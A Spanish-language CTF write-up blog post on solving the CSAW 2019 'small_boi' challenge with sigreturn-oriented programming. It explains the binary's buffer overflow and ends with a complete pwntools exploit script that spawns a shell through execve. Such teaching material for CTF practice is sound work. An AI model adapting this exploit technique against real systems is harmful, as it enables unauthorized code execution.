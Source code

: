 ```yaml
---
layout: post
title: WRITEUP, small_boi csaw19, aprendiendo SROP
date: 2020-07-14 00:00
comments: true
categories: [Sin categoría]
---
```

<!-- wp:paragraph -->
<p>Tenía guardado este writeup, para hablar de SROP, pero justo el ctf de <a href="https://www.linkedin.com/showcase/convid/?viewAsMember=true">convid</a>, me pilló con un desafío en el que <a href="/writeup-scandinavian-journal-of-psychology/">ocupe esta técnica</a>, de todas formas y para que no se pierda aca les dejo el writeup. Es un binario del ctf <a href="https://ctftime.org/event/870">CSAW 2019</a> de 100 puntos llamado “small_boi” (pueden descargarlo de <a href="https://github.com/dplastico/small_boi/blob/master/small_boi">aca</a>) el cual resolveremos usando la técnica de sig return oriented programming.&nbsp;<br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Y Bueno que es <a href="https://en.wikipedia.org/wiki/Sigreturn-oriented_programming">SROP</a>?&nbsp; Es una técnica usa en caso de estar presente a un escenario en el cual tenemos protección NX activada y usamos el syscall sig return para “limpiar” el stack frame (me perdonaran no se me ocurre mejor forma de explicarlo) permitiéndonos asignar a cada registro al valor que deseemos.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p></p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":217} -->
<figure class="wp-block-image"><img src="/wp-content/uploads/2020/07/image.png" alt="" class="wp-image-217" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p><br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Por que existe un syscall así se preguntaran? Pues para que el kernel por ejemplo en momento de ejecución pueda retornar el estado de un programa al retornar de otra syscall por ejemplo. Más detalles pueden encontrar <a href="https://man7.org/linux/man-pages/man2/sigreturn.2.html">aca</a><br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Bueno con esto en mente pasemos a la accion!<br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Podemos observar que es un binario de 64 bits staticamente linkeado a libc, y que solo cuenta con la proteccion NX activada.<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh4.googleusercontent.com/PcXEFJ-Hl96nfRubXWkIGaCcVlilAEiTTlc3IptF966sE7J8ncWPcB1S0EUUrkLZmFfSOfy0T7S3JRU1QZNdFbvF6hwbhweq0z8GmcoSsrN7XaVFjgg3AduiJlFt3hjNBh1TFSg-" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>El binario simplemente espera un input y luego parece cerrarse, es un binario pequeno aparentemente programado en ASM o muy poco codigo, revisemos en más detalle en IDA…<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh5.googleusercontent.com/knYNsqmyDfslA2WiFm8mF4vDrw2d2kRa1JSOgEBWs0t7ge4EP4okkeORshOLNErB4fAxX7sg15XX7U29bofqJpzOp7ZvcMKu1ltVdCzfSeel3YlvHzFwgknZGZ8R5etk8M3CC1QQ" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>El entry point nos muestra que llama a una función en 0x40018C la cuyal renombrare a vuln, luego de eso vemos un syscall a 0x3c lo cual nos indica un exit inmediatamente después analicemos la función mencionada.<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh3.googleusercontent.com/Mk8f2D_66EjBGSRlDb4b4YlY60S-OubWZwYAZ27tkGbZKW2LlGp_3ai8w5E85AcIX1lNtdn_oIPAs8RL2h39q2yZodb7-0nyvnwA8oyyXonMMkOHm10HadeSB1Mtm-fmKGvynuKD" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Aca podemos ver cómo ocurre la vulnerabilidad, setea un buffer de 20 hex, luego realiza un xor sobre los registros rax y rdi para dejarlos en cero. Esto para que rax apunte al syscall 0 (read) y rdi apunte al stdin (0). El problema es nuestro RDX que indica el tamaño del input que leeremos el cual es de 200, mucho más de los 20 hex que tenemos disponibles, lo que causará un buffer overflow.<br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Explorando el binario vemos otras cosas interesantes como el string /bin/sh dentro del binario (nos servira despues)<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh5.googleusercontent.com/7l142MrvlkF7Z7BSFbVNlC-uoOa7jQIeSumiSaiqAfuDTieHovsgyT1rmrJNUFxIBgOEgbBBraBqqVl5gLOGKWvKXwRtHK4bEisp5IgVTovFcf6WEkKd63ggsGZF9LXX0BQBUc_1" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Además del call a sigreturn en 0x40017c, el cual nos permitirá hacer esta llamada, la cual bien podría considerarse un “one gadget”<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh3.googleusercontent.com/vP2qAHvIUnf1aDLG8nYNuDVpvwm0lOTFiynjDn2TxB-zPrB5vQWck6mCAZQza9w-sUXqVaHNb5NxertQBgL111U-KENPw7NJkwRC1dNIx_g1a4WUe0Hw1R0TH-yuLLE5-dTzdzVo" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Con esto en mente, hagamos un script para interactuar con el binario, comenzamos con algun setup inicial:<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh3.googleusercontent.com/4VKXk78s0DFFXjbgT_oTj10Si9X9KpeksDc0q7YfE_Wbg0-9dZu_EmixH2stDZk-OvnMPeqVt9DA4kZCjEOGzn1UJ-mXimczMwMdKt2gQH5fd4A_XwuYV0Y3y4hpX3qKts120dwb" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Ahora, rápidamente en gdb (lo estoy usando con pwndbg) con cyclic vemos que el offset en el que crashea el programa (40 bytes, 8 + de los 32 a los que se termina el buffer, algo típico de overflow en 64 bits)&nbsp;<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh6.googleusercontent.com/pT743iRyUgAxau-61u6MwiPIx8MS2HErK149M2f6IjwN4mTUCb7WrxtJS-j_xGhNCyxc3uEeXrJ4z1VafNBC5arQI2MrVWMuD5YLc0N_tiINQ1KcHs5Et3_d7hoQGRSO1QghiAyi" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Pues bien con esto no queda nada más que armar el exploit, sabemos que tenemosla direccion de sigreturn entonces creamops el frame usando la <a href="https://docs.pwntools.com/en/stable/rop/srop.html">magia de pwntools</a> (vaya trabajo de hacer manual si alguien quiere experimentarlo puede ver el stream de este <a href="https://www.youtube.com/watch?v=L259SbpYtXM">master</a>!)</p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh3.googleusercontent.com/0lO3WYfUdW7IdCMTk1kgXI8oqPq2hbz4j9E3FFKAwRuGgGxD1oCh5_M7y1A7mohYSvgcEV4zJQgMtVGEppJIZtFIcE4vhnYdbMCOl9hD_EOh15chHZmQSwWPoFy92CxNBE0bgSrx" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Ahora que setamos en esos registros? Pues sabemos que tenemos el string de /bin/sh en el binario por lo que podemos setearlo como argumento en RDI y llamar a execve poniendo el registor RAX en x3B, ademas debemos setear RSI y RDX a null y finalizar situando la ejecucion (RIP) en la llamada a un syscall, tenemos todo lo que necesitamos menos el address de un syscall, pero que podemos obtener facilmente mirando IDA (recordemos que el binario no tiene ASLR) o bien usando ropper, la cual obtenemos en la direccion 0x400185<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh3.googleusercontent.com/rwx8e8sqKT16qspueRZ7n1tXqVOohKUGUfYezNKjasDKg_p6MSWC3Pbbi1XmmdiN9YQzQ8Qncj7BXp0q18IRKjsykWfqjw_rnY5HPmZo5b0ytXFbS79JZDQ2T2DaBIxfv0-p1l0e" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Perfecto ya tenemos todo lo que necesitamos! Probemos… Algo ocurre y obtenemos on EOF&nbsp;<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh4.googleusercontent.com/NwkNv3xHwoXo3ODFDQsJUO-ObRO1gq9TMj539GZKpxbmoeT32GWUnJX_3z5D73xGLvtxR0rRLB_ZAJUL6tci5RfI50zL5lGn__0oe1QrFRz_pvW8xTwp_s0qqUFpGKMlqVribZTt" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh3.googleusercontent.com/mIo09j22qcK42RRJWF3AsNr9DERS7y7o2CgboV3lZy_mUf9gmYF16YgOIbTHdUrxK7KBwlSc1fYUSIlHQvcArJJJyi1TYQASbQUch5LdgfSQkemtr7xcxwJrcH7tdiyfJVKsRdss" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Al observar podemos ver que los valores de los registros no estan bien, y parecen haberse corrido (shifted) por lo que despues de mucho rato note que los registros tiene un “shift” de 8 bytes, dentro del frame podremos moverlo, probemos una vez mas<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh6.googleusercontent.com/RJtvZrky6QKbVDq0gmJm141qprwW_jOIoCOg9runwzmDl6eiujM-XjIiWlOMw9ohx0PcKi1YCg5bXgbSeKBTSA8gAhnMlzosKC79Hj42qnZB_FQqx4qTq4BQtIob2gjsqv-mlnZC" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Esta vez los registros si se acomodan! perfecto<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh6.googleusercontent.com/hmtlqaCEHLpSUDDtSc29RxvAHS7Xr_zuCGEEpSFLGigyw88kB4RqYR4SZFqUxpxxFtz-L_CKHu07woVKRqRmKPiEROjnNLXv8l6mS39_w6Gw7SL7B5U22eMn2nQR6ZmAC503p3oD" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Con eso ejecutamos y shell:<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh4.googleusercontent.com/idPIGbwammzaMnXWaX4K1azXpowY7TiSXowmYoFiAZbsEYbkjDKFOPuqS8UyxQaZ2vytgrjSaz_7nKMShhxWoTLckk1v00MhsRQ3VtEwapJI8VzW6C48g9wZD_gDfODxop5LYNra" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Espero que les haya gustado esta técnica de explotación, en lo particular parece una buena técnica para ctfs, especialmente cuando nos enfrentamos a algunas restricciones dentro de libc para llamar one_gadet.<br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Aca les dejo el exploit final:</p>
<!-- /wp:paragraph -->

<!-- wp:code -->
<pre class="wp-block-code"><code>from pwn import *

# info del binario
context.binary = './small_boi'
context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']
#funcion para correr el binario
def start():
    if args.GDB:
        return gdb.debug('./small_boi')

    else:
        return process('./small_boi')

sigret = p64(0x40017c) #sig return address

frame = SigreturnFrame() #sigreturnframe funcion de pwntools para crear el frame
frame.rip = 0x400185 #syscall, no empaquetamso ya que el frame poondra el valor directo en el registro
frame.rax = 0x3b #0x3b es el numero de syscall de execve()
frame.rdi = 0x4001ca #direccion de /bin/sh no ocupamos empaquetado por los mismo que el rip
frame.rsi = 0x00 # null 
frame.rdx = 0x00 # null


payload = "A" * 40 #offset
payload += sigret #direccion de sigretur
#nuevo frame, con shift de 8 por el cambio del stack
#vi otros writeups y no se si esto le paso a todo el mundo, a mi me ocurrio con ubuntu 18.04
payload += str(frame)[8:] 

#interaccion con el binario
r = start()
r.sendline(payload)
r.interactive()</code></pre>
<!-- /wp:code -->
